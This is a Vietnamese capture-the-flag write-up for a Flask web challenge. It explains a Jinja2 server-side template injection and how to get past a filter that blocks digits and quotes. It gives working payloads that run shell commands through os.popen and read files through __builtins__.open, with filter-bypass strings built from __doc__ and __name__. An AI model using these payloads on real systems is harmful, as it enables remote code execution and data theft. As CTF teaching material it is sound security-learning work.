



# EHC Hair Salon

[Src code server](app.py)

Challenge này cho ta một trang web như hình, có một text input và một nút để submit:



Xem qua src code server mình thấy đoạn text mình nhập vào sẽ được chèn vào 1 đoạn HTLM và render ra bằng template engine Jinja của Flask
```python
...
page = 'REDACTED HTML CODE {} REDACTED HTML CODE'.format(hair_type)
return render_template_string(page)
...
```

---

Bình thường thì ta có thể inject code python vào đây. Ex:
- `{{7*7}}` sẽ được render ra thành 49
- `{{get_flashed_messages.__globals__.__builtins__.open("flag.txt").read()}}` trả về nội dung của file `flag.txt`
- `{{cycler.__init__.__globals__.os.popen('ls').read()}}` chạy lệnh `ls` trong shell

Tham khảo thêm [ở đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

Nhưng ở bài này thì input đã bị filter đi khá nhiều thứ, quan trọng nhất là string và số
```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
...
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)

if len(hair_type) > 256:
    return render_template_string(error_page)
...
```

---

Vì thế thay vì nhập string và số trực tiếp thì mình có thể dùng những thứ có sẵn của python. Ex:
- `().__doc__` trả về doc của tuple `"Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."`
- `().__gt__.__name__` trả về `"__gt__"`
- `[].__len__()` trả về số phần tử của mảng rỗng là `0`
- `[[],[],[]].__len__()` trả về `3`

Kết hợp lại với nhau thì mình có thể substring để lấy từng ký tự cụ thể. Ex:
- `().__doc__[[[],[],[]].__len__()]` trả về `l`
- `().__str__.__name__[[[],[]].__len__()]` trả về `s`

---

Thử inject payload `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}` mình tìm được một file có tên là flag trong thư mục



Tương tự, đoạn code sau sẽ trả về chữ `flag`
```python
[].__doc__[-[[],[],[],[],[]].__len__()]+\
().__doc__[[[],[],[]].__len__()]+\
().__add__.__name__[[[],[]].__len__()]+\
().__gt__.__name__[[[],[]].__len__()]
```

Inject `{{get_flashed_messages.__globals__.__builtins__.open([].__doc__[-[[],[],[],[],[]].__len__()]+().__doc__[[[],[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__gt__.__name__[[[],[]].__len__()]).read()}}`



Flag: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`